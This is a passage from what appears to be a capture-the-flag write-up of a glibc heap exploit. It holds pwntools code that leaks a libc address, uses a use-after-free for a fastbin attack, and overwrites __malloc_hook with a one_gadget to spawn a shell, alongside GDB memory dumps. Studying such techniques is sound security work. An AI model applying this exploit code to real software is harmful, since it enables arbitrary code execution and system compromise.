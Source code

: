 Sure, the addresses are labeled weirdly now, but we can see that this is a valid address (0x7f6c4122aaed) that we can point to!

Using our leak from before, we can now calculate the addresses of the things we need:
```python
leak = u64(show(0).split('\n')[1].split(' : ')[1].ljust(8, '\x00'))

# Calculate offsets
libc.address = leak - 0x3c4b78
malloc_hook = libc.symbols['__malloc_hook'] - 0x30 + 0xd
one_gadget = libc.address + 0xf02a4 # Use david942j's one_gadget tool
```

Now, in order to do the fastbin attack, we just overwrite chunk C's body's `fd` pointer with the address to `__malloc_hook - 0x30 + 0xd`. ***However***, in order to do that, we will be overwriting chunk C's topic's `fd` pointer as well (due to how the `edit` function works). We need to keep this a valid pointer, as otherwise when we allocate a chunk again, an invalid `fd` pointer will crash our program.

Since we have a UAF, we can easily just read the current `fd` pointer that chunk C's topic has, and reuse it when we overwrite chunk C's body's `fd` pointer to `__malloc_hook - 0x30 + 0xd`, as follows:
```python
# We must have a valid pointer at the fd of the topic chunk, otherwise the program will crash
# So we initially read the fd pointer and store it
topic_fd = u64(show(2).split('\n')[0].split(' : ')[1].ljust(8, '\x00'))

# Now overwrite the fd pointer of chunk C's body to __malloc_hook-0x30+0xd
# Ensure not to change chunk C's topic's fd pointer
edit(2, p64(topic_fd), p64(malloc_hook))
```

Now we simply perform two mallocs. The first malloc gives us back chunk C and puts the pointer pointing to `__malloc_hook - 0x30 + 0xd` at the front of the 0x68 fastbin. The second malloc subsequently gives us a chunk right on top of `__malloc_hook - 0x30 + 0xd`. Now we just have to pad our input enough to overwrite `__malloc_hook` with a one gadget, as follows:
```python
# Second allocation will be at __malloc_hook-0x30+0xd
# Overwrite __malloc_hook with one_gadget
add(4, 'E'*0x8, 'E'*0x66) # Chunk C given back to us
add(5, 'F'*0x8, 'F'*0x13 + p64(one_gadget) + 'F'*0x4b) # Chunk on __malloc_hook - 0x30 + 0xd
```
```c
gef➤  x/20gx 0x7f0633c26aed - 0xd
0x7f0633c26ae0 <_IO_wide_data_0+288>:   0x0000000000000000      0x0000000000000000
0x7f0633c26af0 <_IO_wide_data_0+304>:   0x00007f0633c25260      0x4646460000000000
0x7f0633c26b00 <__memalign_hook>:       0x4646464646464646      0x4646464646464646
0x7f0633c26b10 <__malloc_hook>: 0x00007f06339522a4      0x4646464646464646 <- __malloc_hook overwritten with one gadget
0x7f0633c26b20 <main_arena>:    0x4646464646464646      0x4646464646464646
...
```

And finally, we just need to call `malloc` one more time to get a shell.
```python
# Get shell
p.sendlineafter('>>', '1')
p.sendlineafter('index\n', '0')

p.interactive()
```
